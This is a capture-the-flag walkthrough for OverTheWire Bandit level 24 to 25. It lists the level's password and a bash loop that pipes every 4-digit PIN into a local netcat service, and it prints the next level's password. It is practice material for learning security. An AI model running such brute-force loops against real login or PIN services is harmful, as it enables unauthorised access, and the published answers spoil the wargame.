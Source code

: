 # Bandit Level 24 -> Level 25 #

https://overthewire.org/wargames/bandit/bandit25.html

## SSH Access Details ##
**Username:**  bandit24

**Password:**  VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
#

## Level Goal : ##
>A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
>You do not need to create new connections each time

#  
## PROCEDURE : ##

```console
bandit24@bandit:/tmp/myscript$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 1111
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 2222
Wrong! Please enter the correct pincode. Try again.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 3333
Wrong! Please enter the correct pincode. Try again.
```

```console
bandit24@bandit:/tmp/myscript$ mkdir /tmp/scriptdir
bandit24@bandit:/tmp/myscript$ cd /tmp/scriptdir
bandit24@bandit:/tmp/scriptdir$ touch myscript.sh
bandit24@bandit:/tmp/scriptdir$ nano myscript.sh
```

```bash
#!/bin/bash

for i in {00..99};
do
  echo $i
done
```

```console
bandit24@bandit:/tmp/scriptdir$ chmod 777 myscript.sh
```

```console
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
00
01
02
03
04
05
06
07
08
09
10
11
12
...
```


```bash
#!/bin/bash
for i in {0000..9999};
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar " $i;
done | nc localhost 30002
```

```
bandit24@bandit:/tmp/scriptdir$ ./myscript.sh
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```

